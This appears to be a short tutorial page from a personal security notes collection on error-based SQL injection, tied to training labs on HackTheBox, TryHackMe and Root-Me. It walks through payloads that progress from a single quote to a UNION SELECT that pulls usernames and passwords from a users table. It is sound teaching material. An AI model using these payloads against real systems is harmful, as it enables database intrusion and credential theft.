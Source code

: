 # Error-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)

<div class="row row-cols-lg-2"><div>

Error-based is the simplest SQL injection. It's an injection in which DBMS errors are displayed to the user.

The hacker can easily use the output to tweak the payload until they get what they want.
</div><div>
</div></div>

<hr class="sep-both">

## Error-based SQLi Explained

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)

<div class="row row-cols-lg-2"><div>

1. We usually start with injecting a quote `'`:

```sql!
Select name,desc from product where name LIKE '%'%'
```

☠️ The query fails because of the syntax is invalid, due to the trailing "`%'`", but we now know that an injection is possible.

<br>

2. We then comment out the rest of the query using `' --`.

```sql!
Select name,desc from product where name LIKE '%' --%'
```

☠️ The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself.
</div><div>

3. We add a space giving us the payload `' -- -`

```sql!
Select name,desc from product where name LIKE '%' -- -%'
```

✅ Between `'` and `-- -`, we can write **any** SQL code, through the syntax of the final query must be valid ✌️.

For instance, we could use `xxx' UNION Select username,password FROM users -- -` to get the list of usernames/passwords.

```sql!
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users -- -%'
```

Refers to union-based payloads.
</div></div>